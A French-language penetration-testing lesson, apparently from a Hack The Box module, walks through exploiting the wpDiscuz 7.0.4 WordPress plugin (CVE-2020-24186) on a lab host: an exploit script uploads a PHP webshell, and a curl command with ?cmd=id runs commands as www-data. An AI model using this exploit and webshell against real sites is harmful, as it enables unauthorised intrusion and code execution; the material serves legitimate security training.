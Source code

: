 [wpDiscuz](https://wpdiscuz.com/) est un plugin WordPress pour améliorer les commentaires sur les publications de page. Au moment de la rédaction de cet article, le plugin comptait plus [1,6 million de téléchargements](https://wordpress.org/plugins/wpdiscuz/advanced/) et plus de 90 000 installations actives, ce qui en fait un plugin extrêmement populaire que nous avons de très bonnes chances de rencontrer lors d'une évaluation. Sur la base du numéro de version (7.0.4), cet [exploit](https://www.exploit-db.com/exploits/49967) a de bonnes chances d'obtenir l'exécution de la commande. Le nœud de la vulnérabilité est un contournement de téléchargement de fichiers. wpDiscuz est destiné uniquement à autoriser les pièces jointes d'images. Les fonctions de type mime de fichier pourraient être contournées, permettant à un attaquant non authentifié de télécharger un fichier PHP malveillant et d'obtenir l'exécution de code à distance. Vous trouverez plus d'informations sur le contournement des fonctions de détection de type mime [ici](https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/) .

Le script d'exploit prend deux paramètres : `-u` l'URL et `-p` le chemin d'accès à une publication valide.

Plugins vulnérables - wpDiscuz

```
dsgsec@htb[/htb]$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

-------------------------------------------------- --------------
[-] Plugin Wordpress wpDiscuz 7.0.4 - Exécution de code à distance
[-] Vulnérabilité de contournement de téléchargement de fichiers - Téléchargement PHP Webshell
[-] CVE : CVE-2020-24186
[-] https://github.com/hevox
-------------------------------------------------- --------------

[+] Longueur de la réponse :[102476] | code :[200]
[!] Valeur wmuSecurity obtenue : 5c9398fcdb
[!] Valeur wmuSecurity obtenue : 1

[+] Génération d'un nom aléatoire pour Webshell...
[!] Nom du webshell généré : uthsdkbywoxeebg

[!] Essayer de télécharger Webshell..
[+] Téléchargement réussi... Chemin Webshell : url&quot; :&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot;

> identifiant

[x] Impossible d'exécuter le code PHP...

```

L'exploit tel qu'il est écrit peut échouer, mais nous pouvons utiliser `cURL` pour exécuter des commandes à l'aide du shell Web téléchargé. Nous avons juste besoin d'ajouter `?cmd=` après l'extension `.php` pour exécuter les commandes que nous pouvons voir dans le script d'exploitation.

VulPlugins compatibles - wpDiscuz

```
dsgsec@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groupes=33(www-data)

```

